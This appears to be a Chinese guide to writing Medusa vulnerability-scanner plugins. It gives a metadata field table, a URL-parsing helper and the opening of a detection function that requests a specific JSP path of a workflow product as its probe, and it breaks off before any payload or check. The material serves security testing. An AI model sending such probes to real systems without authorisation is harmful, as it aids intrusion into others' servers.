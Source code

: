 | 函数名       | 值           | 备注                                                         |
| :----------- | ------------ | ------------------------------------------------------------ |
| number       | CVE编号     |  如果没有CVE或者CNVD编号就填0，CVE编号优先级大于CNVD         |
| author       | 插件作者     |                                                              |
| create_date  | 插件编辑时间 | 格式为：年-月-日                                             |
| algroup      | 插件名称     | 要和文件名相同，并且只能英文（所有.都要替换为_               |
| name         | 漏洞名称     | 插件的中文名，要与插件名翻译结果相同                         |
| affects      | 漏洞组件     | 该漏洞存在哪个组件中的哪个版本                               |
| desc_content | 漏洞描述     | 漏洞描述，比如在组件的哪个版本，哪个位置，有什么危害，什么地方没写好或者没过滤导致的等 |
| rank         | 漏洞等级     | 分为：严重、高危、中危、低危四个种类                         |
| suggest      | 修复建议     | 给出缓解措施，或者解决办法                                   |
| disclosure | 披露时间 | 漏洞披露时间，如果不知道就写编写插件的时间 |
| version      | 漏洞所影响的版本         | 只要写漏洞所影响的版本范围，适用于那些版本     |
| disclosure | 披露时间 | 漏洞披露时间，如果不知道就写编写插件的时间 |


### UrlProcessing函数

对url进行处理

```python
def UrlProcessing(url):
    if url.startswith("http"):#判断是否有http头，如果没有就在下面加入
        res = urllib.parse.urlparse(url)
    else:
        res = urllib.parse.urlparse('http://%s' % url)
    return res.scheme, res.hostname, res.port
```

函数对各个部分进行处理，最终我们只需要取得``` scheme``` ,``` port``` , ``` hostname``` 的值返回给调用函数就行

### medusa函数

```python
def medusa(Url,RandomAgent,ProxyIp):

    scheme, url, port = UrlProcessing(Url)
    if port is None and scheme == 'https':
        port = 443
    elif port is None and scheme == 'http':
        port = 80
    else:
        port = port
    global resp
    global resp2
    try:
        payload = "/mobile/browser/WorkflowCenterTreeData.jsp?node=wftype_1&scope=2333"
        payload_url = scheme + "://" + url +":"+ str(port)+ payload


        headers = {
            'User-Agent': RandomAgent,
            'Content-Type': 'application/x-www-form-urlencoded',
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'
        }

        s = requests.session()
        if ProxyIp!=None:
```